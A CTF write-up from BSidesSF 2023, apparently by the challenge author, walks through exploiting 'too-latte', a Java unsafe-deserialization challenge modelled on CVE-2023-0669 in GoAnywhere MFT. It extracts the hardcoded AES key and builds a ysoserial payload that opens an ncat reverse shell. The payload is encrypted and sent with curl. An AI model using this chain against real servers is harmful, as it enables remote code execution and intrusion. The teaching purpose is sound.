 ```yaml
---
title: 'BSidesSF 2023 Writeups: too-latte (medium-difficulty Java exploitation)'
author: ron
layout: post
categories:
- bsidessf-2023
- ctfs
permalink: "/2023/bsidessf-2023-writeups--too-latte--medium-difficulty-java-exploitation-"
date: '2023-04-23T17:08:44-07:00'

---
```


[`too-latte`](https://github.com/BSidesSF/ctf-2023-release/tree/main/too-latte)
is a challenge I wrote based on
[CVE-2023-0669](https://attackerkb.com/topics/mg883Nbeva/cve-2023-0669/rapid7-analysis),
which is an unsafe deserialization vulnerability in Fortra's GoAnywhere MFT
software. I modeled all the vulnerable code off, as much as I could, that
codebase. It's obviously themed quite differently.

<!--more-->
# Write-up

If you use a tool like [jadx](https://github.com/skylot/jadx) to unpack the
servlets, you'll find, through some layers of indirection, this code in
TokenWorker.java (that operates on the `token` parameter):

```java
  public static String unbundle(String token, KeyConfig keyConfig) throws Exception {
    token = token.substring(0, token.indexOf("$"));

    return new String(decompress(verify(decrypt(decode(token.getBytes(StandardCharsets.UTF_8)), keyConfig.getVersion()), keyConfig)), StandardCharsets.UTF_8);
  }
```

The `decode` function decodes the `token` parameter from `Base64`.

The `decrypt` function decrypts the token with a static key. The actual decryption
code is under several layers of indirection, because Java is Java, but the
`TokenEncryptor` class has a key, IV, and algorithm:

```java
    private static final byte[] IV = {1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16};
    private static final String KEY_ALGORITHM = "AES";
    private static final String CIPHER_ALGORITHM = "AES/CBC/PKCS5Padding";

    // [...]

    // This actually gets a key
    private byte[] getInitializationValue() throws Exception {
      return SecretKeyFactory.getInstance("PBKDF2WithHmacSHA1").generateSecret(new PBEKeySpec(new String("cafelatteTokenP@$$wrd".getBytes(), "UTF-8").toCharArray(), new byte[]{12, 56, 72, 86, 73, 99, 35, 44, 35, 97, 45, 45, 89, 23, 33, 67}, 3392, 256)).getEncoded();
    }
```

Instead of figuring out what to do, we can write our own code to call that
function the way we did in `flat-white-extra-shot`:

```java
import java.lang.reflect.Method;
import java.util.Arrays;

public class GetKey {
  public static void main(String[] args) throws Exception {
    Method method = org.bsidessf.ctf.toolatte.TokenEncryptor.class.getDeclaredMethod("getInitializationValue");
    method.setAccessible(true);
    byte []key = (byte[])method.invoke(null);
    System.out.println(Arrays.toString(key));
  }
}
```

Then compile and execute it, using the included .jar file:

```
$ javac -cp .:./TooLatte.jar GetKey.java
$ java -cp .:./TooLatte.jar GetKey
[-48, 63, 50, 98, -65, -28, -41, -100, -93, -34, -28, -105, -49, -1, 22, -54, 125, -117, -46, 123, -78, -120, -11, 104, -35, -98, 61, 65, -11, -55, 79, -20]
```

Now that we have all the crypto information, we can replicate `decrypt()`! The
next thing on our list of functions is `verify()`:

```java
  private static byte[] verify(byte[] data, KeyConfig keyConfig) throws Exception {
    ObjectInputStream objectInputStream = null;
    PublicKey publicKey = getPublicKey(keyConfig);
    ObjectInputStream objectInputStream2 = new ObjectInputStream(new ByteArrayInputStream(data));

    SignedObject signedObject = (SignedObject) objectInputStream2.readObject();

    if (!signedObject.verify(publicKey, Signature.getInstance("SHA512withRSA"))) {
        throw new IOException("Unable to verify signature! Did you send us a Token Request by mistake?");
    }

    byte[] outData = ((SignedContainer) signedObject.getObject()).getData();
    if (objectInputStream2 != null) {
        objectInputStream2.close();
    }
    return outData;
  }
```

If you're familiar with Java security, there's a huge red flag there -
`ObjectInputStream`! That's a deserialization sink - in other words, if we can
control the data going into it (which we can!), we can run arbitrary commands!

Passing the verification doesn't matter, nor does anything after it. We can now
grab [ysoserial](https://github.com/frohoff/ysoserial), create a payload,
encrypt it, and send it along.

First, let's generate a payload (I've intentionally included the necessary
files for `CommonBeanutils1` to work):

```
$ java -jar ./ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 'ncat -e /bin/bash 10.0.0.22 4444' > /tmp/javapayload.ser
```

Then let's use `irb` (interactive Ruby) to encrypt/encode it:

```irb
$ irb
3.1.3 :001 > require 'openssl'
 => true 
3.1.3 :002 > require 'base64'
 => true 
3.1.3 :003 > payload = File.read('/tmp/javapayload.ser')
 => "\xAC\xED\u0000\u0005sr\u0000\u0017java.util.PriorityQueue\x94\xDA0\xB4\xFB?\x82\xB1\u0003\u0000\u0002I\u0000\u0004sizeL\u0000\ncomparatort\u0... 
3.1.3 :004 > cipher = OpenSSL::Cipher.new('AES-256-CBC')
 => #<OpenSSL::Cipher:0x00007fd294a25a58> 
3.1.3 :005 > cipher.encrypt
 => #<OpenSSL::Cipher:0x00007fd294a25a58> 
3.1.3 :006 > cipher.iv = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
 => "\u0001\u0002\u0003\u0004\u0005\u0006\a\b\t\n\v\f\r\u000E\u000F\u0010" 
3.1.3 :007 > cipher.key = "\xd0\x3f\x32\x62\xbf\xe4\xd7\x9c\xa3\xde\xe4\x97\xcf\xff\x16\xca\x7d\x8b\xd2\x7b\xb2\x88\xf5\x68\xdd\x9e\x3d\x41\xf5\xc9\x4f\
xec"
 => "\xD0?2b\xBF\xE4ל\xA3\xDE\xE4\x97\xCF\xFF\u0016\xCA}\x8B\xD2{\xB2\x88\xF5hݞ=A\xF5\xC9O\xEC" 
3.1.3 :008 > puts Base64::urlsafe_encode64(cipher.update(payload) + cipher.final()) + "$2"
iRNXnWJjCrdkfbDk2b[......]
```

Then we start our Netcat listener in one window:

```
$ nc -v -l -p 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

And send that payload in another:

```
$ curl 'http://localhost:8080/validate?token=iRNXnWJjCrdkfbDk2b[......]
java.lang.RuntimeException: InvocationTargetException: java.lang.reflect.InvocationTargetException
```

And in our first window, we get a shell!

```
$ nc -v -l -p 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.0.0.22.
Ncat: Connection from 10.0.0.22:37132.
whoami
tomcat
cat /flag.txt
CTF{good-work-you-saved-humanity}
```
